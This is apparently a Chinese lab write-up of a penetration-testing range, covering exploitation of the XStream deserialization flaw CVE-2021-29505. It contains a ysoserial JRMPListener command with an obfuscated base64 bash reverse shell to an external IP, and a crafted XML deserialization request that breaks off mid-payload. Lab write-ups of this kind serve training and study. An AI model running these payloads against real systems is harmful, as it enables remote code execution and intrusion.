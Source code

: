 进击下一个，来到`Delivery`靶标，看解的人数还行。1 沙烁直接开干，总体打的挺舒服的

*靶标介绍：*

在这个靶场中，您将扮演一名渗透测试工程师，受雇于一家名为 Delivery 的小型科技初创公司，并对该公司进行一次渗透测试。你的目标是成功获取域控制器权限，以评估公司的网络安全状况。该靶场共有 4 个 Flag，分布于不同的靶机。

### Xstream RCE

这个一开始不够仔细，注意需要修改两处地址。来源漏洞

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造 RMI 请求，进而执行任意命令。

[https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md)

VPS 监听 1099 端口，开启服务

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMjI5LjE1OC40MC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"
```

[![](assets/1709193375-979d2091be15249ca430d78185df9a66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205137-f1829a3a-d56e-1.png)

burp 传参接口`/just_sumbit_it`，注意修改 VPS 地址

```bash
POST /just_sumbit_it HTTP/1.1
Host: 39.99.154.52:8080
Content-Length: 3119
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://39.99.154.52:8080
Referer: http://39.99.154.52:8080//
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
```